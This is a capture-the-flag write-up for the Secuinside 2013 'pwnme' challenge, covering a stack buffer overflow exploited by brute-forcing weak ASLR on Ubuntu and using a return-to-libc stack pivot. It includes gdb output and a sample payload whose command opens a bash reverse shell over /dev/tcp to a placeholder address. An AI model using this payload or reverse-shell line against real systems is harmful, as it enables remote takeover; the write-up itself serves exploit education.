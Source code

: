 ```yaml
---
title: '[Secuinside CTF 2013] pwnme writeup'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358961
kopa_newsmixlight_total_view:
  - 1
categories:
  - 'CTF - CLGT Crew'
tags:
  - aslr
  - CTF
  - 'CTF - CLGT Crew'
  - return-to-libc
  - rop
---
```

Challenge summary:

Binary : http://war.secuinside.com/files/pwnme  
Source : http://war.secuinside.com/files/pwnme.c  
===================================  
OS : Ubuntu 13.04 with PIE+ASLR+NX  
md5 of libc-2.17.so : 45be45152ad28841ddabc5c875f8e6e4

IP : 54.214.248.68  
PORT : 8181,8282,8383

This is the only exploit challenge comes with source. The bug is simple: buffer overflow with only 16-bytes at *pwnme.c:67*, just enough to control EIP. The goal is to bypass PIE+ASLR+NX. We first thought about information leak by overwriting one byte of saved EIP and looking for status. Unfortunately, this way soon becomes an dead end as socket was closed before returning at *pwnme.c:72*, so no more input, output can be provided to the program. Conclusion: we have to bruteforce for useful addresses, and due to binary is PIE bruteforcing for libc address the best way for code reuse. Luckily, ASLR on Ubuntu x86 is weak, the libc base address looks like 0xb7NNN000 with only 12-bits randomization. Server daemon will fork a child process for every coming connection, that means addresses will be the same for all instances and bruteforcing 12-bits only take 4096 tries at max. If server is fast, stable this can be done in few minutes, but in fact CTF game server was out of service for most of the time :).

Now we can assume that libc is at fixed address, let build the payload. But where is my input buffer? It was zeroing out at *pwnme.c:71*, there must be something hidden. Let take a look at crash by sending a 1040 bytes pattern buffer:

<pre class="brush: plain; title: ; notranslate" title="">Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb774b000 --&gt; 0x1aed9c
ECX: 0x0
EDX: 0xb774b000 --&gt; 0x1aed9c
ESI: 0x0
EDI: 0x0
EBP: 0x41397441 ('At9A')
ESP: 0xbfac6ce0 --&gt; 0x1
EIP: 0x75417375 ('usAu')
EFLAGS: 0x10217 (CARRY PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x75417375
[------------------------------------stack-------------------------------------]
0000| 0xbfac6ce0 --&gt; 0x1
0004| 0xbfac6ce4 --&gt; 0xbfac6d74 --&gt; 0xbfac78db ("./pwnme")
0008| 0xbfac6ce8 --&gt; 0xbfac6d7c --&gt; 0xbfac78e3 ("TERM=xterm")
0012| 0xbfac6cec --&gt; 0xb777a000 --&gt; 0x20f38
0016| 0xbfac6cf0 --&gt; 0x20 (' ')
0020| 0xbfac6cf4 --&gt; 0x0
0024| 0xbfac6cf8 --&gt; 0xb77566f0 --&gt; 0xb759c000 --&gt; 0x464c457f
0028| 0xbfac6cfc --&gt; 0x3
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x75417375 in ?? ()
gdb-peda$ patts
Registers contain pattern buffer:
EIP+0 found at offset: 1036
EBP+0 found at offset: 1032
No register points to pattern buffer
Pattern buffer found at:
0xb7753000 : offset 1016 - size   24 (mapped)
0xb7753023 : offset   27 - size  989 (mapped)
0xbfac6cd0 : offset 1024 - size   16 ($sp + -0x10 [-4 dwords])
References to pattern buffer found at:
0xb774ba24 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba28 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba2c : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba30 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba34 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba38 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba3c : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xbfac6210 : 0xb7753000 ($sp + -0xad0 [-692 dwords])
0xbfac6224 : 0xb7753000 ($sp + -0xabc [-687 dwords])
0xbfac6248 : 0xb7753000 ($sp + -0xa98 [-678 dwords])
0xbfac6254 : 0xb7753000 ($sp + -0xa8c [-675 dwords])
0xbfac6294 : 0xb7753000 ($sp + -0xa4c [-659 dwords])
0xbfac67c8 : 0xb7753000 ($sp + -0x518 [-326 dwords])
0xbfac67d4 : 0xb7753000 ($sp + -0x50c [-323 dwords])
0xbfac6814 : 0xb7753000 ($sp + -0x4cc [-307 dwords])
gdb-peda$
</pre>

Our input buffer is still there in non-stack memory starts at 0xb7753000, actually this is &#8220;stdout&#8221; buffer used in *printf()* at *pwnme.c:70*.

<pre class="brush: plain; title: ; notranslate" title="">gdb-peda$ info symbol 0xb7753000
No symbol matches 0xb7753000.
gdb-peda$ info symbol 0xb774ba24
_IO_2_1_stdout_ + 4 in section .data of /lib/i386-linux-gnu/tls/i686/nosegneg/libc.so.6
</pre>

We can only assume that libc is fixed, if above buffer address is randomized things will become worse (means finding tedious ROP gadgets to pivot). Fortunately, that buffer is at fixed offset related to libc address.

<pre class="brush: plain; title: ; notranslate" title="">gdb-peda$ vmmap libc
Start      End        Perm    Name
0xb759c000 0xb7749000 r-xp    /lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so
0xb7749000 0xb774b000 r--p    /lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so
0xb774b000 0xb774c000 rw-p    /lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so
gdb-peda$ distance 0xb759c000 0xb7753000
From 0xb759c000 to 0xb7753000: 1798144 bytes, 449536 dwords
</pre>

Try to run the program several times to check and the offset is unchanged. We can build the payload now, the simplest one is calling *system()* with bash reverse shell, or you can try harder with full ROP payload (like what we did during the contest and wasted few more hours :)).

Sample payload will look like:

<pre class="brush: plain; title: ; notranslate" title="">base = 0xb7500000 + bruteforce_value
target = base + 1798144 + 0x304 # make enough space for fake stack
cmd_ptr = target + some_offset # calculate it yourself
cmd = "bash -c 'exec &gt;/dev/tcp/127.127.127.127/4444 0&lt;&1';"
payload = [ret ... ret, system, exit, cmd_ptr, cmd, padding] # total size = 1032
payload += [target] # will become EBP
payload += [leave_ret] # stack pivoting
</pre>

Run it hundred of times and wait for a shell coming to your box.